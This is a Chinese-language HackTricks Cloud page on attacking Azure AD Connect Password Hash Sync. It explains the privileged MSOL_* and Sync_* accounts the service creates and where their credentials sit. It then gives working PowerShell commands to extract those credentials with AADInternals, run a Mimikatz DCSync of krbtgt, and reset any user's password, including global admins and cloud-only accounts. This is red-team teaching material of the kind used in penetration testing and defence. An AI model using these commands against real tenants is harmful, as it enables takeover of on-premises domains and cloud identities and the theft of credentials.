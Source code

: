 # Az - PHS - 密码哈希同步

<details>

<summary><strong>从零到英雄学习AWS黑客技术，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

**密码哈希同步**是用来实现混合身份验证的登录方法之一。**Azure AD Connect**将用户密码的哈希的哈希从本地Active Directory实例同步到基于云的Azure AD实例。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这是公司用来同步本地AD与Azure AD的**最常用方法**。

所有**用户**和**密码哈希的哈希**都从本地同步到Azure AD。然而，**明文密码**或**原始** **哈希**不会发送到Azure AD。\
此外，**内置**安全组（如域管理员等）**不会同步**到Azure AD。

**哈希同步**每**2分钟**发生一次。然而，默认情况下，**密码过期**和**账户** **过期**在Azure AD中**不会同步**。所以，一个**本地密码已过期**（未更改）的用户可以继续使用旧密码**访问Azure资源**。

当本地用户想要访问Azure资源时，**认证发生在Azure AD上**。

**PHS**对于像**身份保护**和AAD域服务等功能是必需的。

## 枢纽转移

配置PHS时，一些**特权账户**会自动**创建**：

* 账户 **`MSOL_<installationID>`** 会自动在本地AD中创建。该账户被赋予**目录同步账户**角色（参见[文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地AD中拥有**复制（DCSync）权限**。
* 在Azure AD中创建了一个账户 **`Sync_<on-prem ADConnect Server名称>_installationID`**。该账户可以**重置任何用户**（已同步或仅限云）在Azure AD中的密码。

这两个特权账户的密码**存储在SQL服务器**上，该服务器安装了**Azure AD Connect。**管理员可以提取这些特权用户的明文密码。\
数据库位于 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`。

可以从其中一个表中提取配置，其中一个是加密的：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**加密配置**使用**DPAPI**加密，它包含了本地AD中**`MSOL_*`** 用户的**密码**和AzureAD中**Sync\_\***的密码。因此，危及这些信息就有可能提升权限到AD和AzureAD。

您可以在[这个演讲中找到这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找 **Azure AD connect服务器**

如果**安装了Azure AD connect的服务器**加入了域（文档中推荐），可以通过以下方式找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### 滥用 MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您还可以使用 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) 来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

通过攻破 **`Sync_*`** 账户，可以**重置**任何用户（包括全局管理员）的密码
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
它还可以**仅修改云用户的密码**（即使这是出乎意料的）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
也可以转储此用户的密码。

{% hint style="danger" %}
另一个选项是**为服务主体分配特权权限**，**Sync** 用户有权限这样做，然后**访问该服务主体**作为提权的一种方式。
{% endhint %}

### 无缝 SSO

可以将无缝 SSO 与 PHS 一起使用，这对其他滥用行为是脆弱的。请在以下位置检查：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> 从零开始学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks** 中看到您的**公司广告**或**下载 HackTricks 的 PDF** 版本，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
